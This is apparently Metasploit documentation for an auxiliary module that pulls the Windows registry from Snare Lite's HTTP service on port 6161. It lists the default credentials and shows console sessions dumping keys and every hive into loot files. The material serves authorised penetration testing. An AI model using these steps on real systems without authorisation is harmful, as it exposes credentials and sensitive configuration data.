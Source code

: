 ## Description

  This module uses the Registry Dump feature of the [Snare Lite for Windows](https://sourceforge.net/projects/snare/) HTTP service on 6161/TCP to retrieve the Windows registry. The Dump Registry functionality is unavailable in Snare Enterprise.

  Note: The Dump Registry functionality accepts only one connected client at a time. Requesting a large key/hive will cause the service to become unresponsive until the server completes the request.


## Vulnerable Application

  SNARE (System iNtrusion Analysis and Reporting Environment) is a series of log collection agents that facilitate centralised analysis of audit log data.

  This module has been tested successfully with Snare Lite for Windows version 4.0.2.0 on Windows XP SP3.

  Installers for Snare Lite are no longer available and the product is unsupported.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/gather/snare_registry`
  3. Do: `set rhost [IP]`
  4. Do: `set HttpUsername [USERNAME]`
  5. Do: `set HttpPassword [PASSWORD]`
  6. Do: `run`
  7. You should get a copy of *HKLM\HARDWARE\DESCRIPTION\System* from the remote Windows system


## Options

**HttpUsername**

The username for Snare remote access (default: `snare`).

**HttpPassword**

The password for Snare remote access (default: blank).

**REG_DUMP_KEY**

Retrieve the specified registry key and all sub-keys.

**REG_DUMP_ALL**

Retrieve the entire Windows registry.

**TIMEOUT**

Timeout in seconds for downloading each registry key/hive.


## Scenarios

Retrieve a specific registry key:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM\\HARDWARE\\DESCRIPTION\\System
  REG_DUMP_KEY => HKLM\HARDWARE\DESCRIPTION\System
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry key 'HKLM\\HARDWARE\\DESCRIPTION\\System'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (23092 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133011_default_192.168.18.155_snare.registry_842138.txt
  [*] Auxiliary module execution completed
  ```

Retrieve an entire hive:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM
  REG_DUMP_KEY => HKLM
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKLM'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (10657975 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133147_default_192.168.18.155_snare.registry_247207.txt
  [*] Auxiliary module execution completed
  ```

Retrieve the entire registry:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_ALL true
  REG_DUMP_ALL => true
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving list of registry hives ...
  [+] 192.168.18.155:6161 - Found 5 registry hives (HKEY_CLASSES_ROOT, HKEY_CURRENT_CONFIG, HKEY_CURRENT_USER, HKEY_LOCAL_MACHINE, HKEY_USERS)
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CLASSES_ROOT'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (3933816 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_070659.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_CONFIG'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (5605 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_376606.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_USER'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (269927 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133223_default_192.168.18.155_snare.registry_653681.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_LOCAL_MACHINE'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (11446508 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133336_default_192.168.18.155_snare.registry_003003.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_USERS'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (1668306 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133342_default_192.168.18.155_snare.registry_236335.txt
  [*] Auxiliary module execution completed
  ```

